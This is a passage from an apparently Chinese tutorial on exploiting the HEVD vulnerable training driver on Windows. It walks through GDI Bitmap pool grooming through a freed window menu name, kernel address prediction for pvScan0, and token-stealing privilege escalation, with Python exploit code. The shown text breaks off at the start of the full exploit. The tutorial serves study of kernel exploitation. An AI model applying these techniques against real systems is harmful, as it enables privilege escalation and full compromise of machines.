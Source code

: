 现在先分配一个比较长的窗口窗口菜单名，再释放掉，然后再申请一个Bitmap将会从用刚才释放的块，这是因为窗口菜单名lpszMenuName与Bitmap分配的块位于同一个内存池。

虽说这样做是没什么毛病，但如何确保我们一定能够重用释放掉的块呢？

其实可以通过比较新申请到的块与先前释放的块的lpszMenuName成员，这样，Bitmap对象的内核地址完全能够预测出来。

```
def alloc_free_windows():
    global classNumber

    previous_entry = 0

    while (1):
        plpszMenuName = allocate_free_window()
        if previous_entry == plpszMenuName:
            return plpszMenuName
        previous_entry = plpszMenuName
        classNumber = classNumber + 1
```

下面再来简单地说一下后续利用过程：

1.依次分配hManager、hWorker两个Bitmap object，并利用上述方法预测得到各自pvscan0指针的内核地址；

2.将hManager的pvScan0指针指向hWorker的pvScan0指针的存放地址，利用HEVD模块的任意写漏洞；

3.查询获得当前进程与system进程的token；

4.调用API SetBitmapBits、GetBitmapBits，将system进程的token写入当前进程；

注意一下查看几个重要的偏移，EXP要相应的修改一下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ed98843b55bf92de.png)

得到HMValidateHandle调用地址

[![](https://p3.ssl.qhimg.com/t011ab78fe13989455b.png)](https://p3.ssl.qhimg.com/t011ab78fe13989455b.png)

利用UAF令Bitmap重新分配得到lpszMenuName释放的内存，成功预测到pvScan0成员指针地址

[![](https://p2.ssl.qhimg.com/t013226913a71081f78.png)](https://p2.ssl.qhimg.com/t013226913a71081f78.png)



## Exploit it!

完整的EXP

```
import sys,time,struct,ctypes,os
from ctypes import *
from ctypes.wintypes import *
from subprocess import *
from win32com.shell import shell
import win32con

kernel32 = windll.kernel32
gdi32 = windll.gdi32
ntdll = windll.ntdll
user32 = windll.user32

hManager = HBITMAP()
hWorker = HBITMAP()

classNumber = 0


class PEB(Structure):
```